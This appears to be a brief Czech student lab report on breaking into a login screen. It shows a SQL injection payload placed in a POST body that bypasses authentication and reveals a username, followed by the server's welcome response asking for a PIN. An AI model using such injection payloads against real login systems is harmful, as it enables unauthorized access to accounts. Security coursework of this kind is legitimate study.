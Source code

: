 #REPORT - moravja8


## Prolomení login screen a zijštění username
POST body: "username= ' OR 1 = 1 AND username like '%moravja8%' OR '&password="
RESPONSE:
{% raw %}
    <pre><code><h2>Welcome <font color="green">rux6j_moravja8</font>, enter your four digit PIN number</h2><form id="pin" action="index.php" method="post"><input type="text" maxlength="4" name="pin" placeholder="_ _ _ _" required ><input type="submit" value="Verify"></form><a id="logout" href="index.php?logout">Logout</a></code></pre>
{% endraw %}